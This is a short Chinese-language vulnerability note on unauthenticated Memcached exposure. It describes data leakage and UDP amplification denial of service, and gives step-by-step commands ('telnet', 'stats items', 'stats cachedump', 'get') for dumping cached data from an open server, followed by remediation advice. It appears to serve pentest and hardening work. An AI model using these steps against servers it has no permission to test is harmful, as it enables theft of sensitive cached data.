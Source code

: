 ### 一 漏洞描述
Memcached 是一套常用的 key-value 缓存系统，由于它本身没有权限控制模块，所以对公网开放的 Memcache 服务很容易被攻击者扫描发现

危害：

1.攻击者通过命令交互可直接读取 Memcached 中的敏感信息。

2.攻击者 利用Memcached 协议的 UDP 端口开展攻击，攻击者通过向开启了 UDP 协议支持的 Memcached 服务器上发送伪造的 IP 欺骗请

求，Memcached 服务器会将大量的响应报文发往目标攻击主机，从而占用目标攻击机器的大量带宽资源，导致拒绝服务。


### 二 漏洞利用
连接: `telnet {ip} {port}`
![img.png](img.png)

列出所有key: `stats items`
![img_1.png](img_1.png)

通过itemid 获取key: `stats cachedump {id} 0`
![img_3.png](img_3.png)

获取数据: `get {key}`
![img_4.png](img_4.png)

### 三 漏洞修复
1 关闭
2 改用其他DB
3 限制访问白名单
4 命令 -l 限制本地访问


> 参考链接  
> http://t.zoukankan.com/xzlive-p-8893037.html  
> https://www.runoob.com/note/37360
